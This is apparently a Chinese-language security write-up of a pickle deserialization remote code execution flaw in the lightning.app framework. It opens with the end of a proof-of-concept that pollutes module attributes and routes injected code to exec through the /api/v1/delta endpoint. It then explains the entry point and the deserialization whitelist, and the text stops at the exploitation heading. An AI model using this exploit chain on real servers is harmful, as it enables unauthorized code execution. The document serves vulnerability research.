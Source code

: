 ```
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].core.LightningFlow": bypass_isinstance(),
        "root['function'].'__globals__'['_sys'].modules['typing'].Union": list,

        # 防止前面程序报错将`provided_state["vars"]`覆盖为空，就不会经过for循环
        "root['vars']": {},
        # or 将`_INTERNAL_STATE_VARS`覆盖为空，也不会进入报错对应的if条件语句里。
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].core.flow.LightningFlow._INTERNAL_STATE_VARS": (),

        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.name": "root.__init__.__builtins__.exec",
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.method_name": "__call__",
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.args": (injected_code,),
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.kwargs": {},
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.id": "root"
    }
}

payload = pickletools.optimize(pickle.dumps(delta, 1)).decode() \
    .replace('__builtin__', 'builtins') \
    .replace('unicode', 'str')

# Sends the payload and does all of our attribute pollution
send_delta(payload)

# Small delay to ensure payload was processed
time.sleep(0.2)
send_delta({})  # Code path triggers when this delta is recieved

```  
  
接下来我将结合poc和代码对此漏洞进行分析  
## 2、漏洞入口及反序列化点  
  
首先来看触发反序列化的点以及入口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdyVN5srHr97X8q9zG9ah80zKDYMiajtsxNNHjPTENm2RkrSrlcouIrng/640?wx_fmt=png&from=appmsg "")  
  
当访问/api/v1/delta的接口时，从请求体中获取JSON数据并解析为字典类型，并取字典中的值delta作为参数实例化Delta，最后放入api_app_delta_queue队列中。  
  
在实例化的过程中，会判断传入的类型，如果传入的字符串类型的则会调用pickle_load进行反序列化  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdM4h0QHqn0QeY5k6hicWDdg0eRibdWcSiafTiaCbrT0y47HhOyDTu55yPhw/640?wx_fmt=png&from=appmsg "")  
  
在反序列化的时候会有一个白名单，需要反序列化的类必须在白名单里，所以一些常规的反序列化漏洞在这里都不能用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdUPxFCZB1JG7iaYsMHskficoYwIDcd3YZdAd650UWMBO8CSgJd3DTJGIA/640?wx_fmt=png&from=appmsg "")  
## 3、漏洞利用方式  
  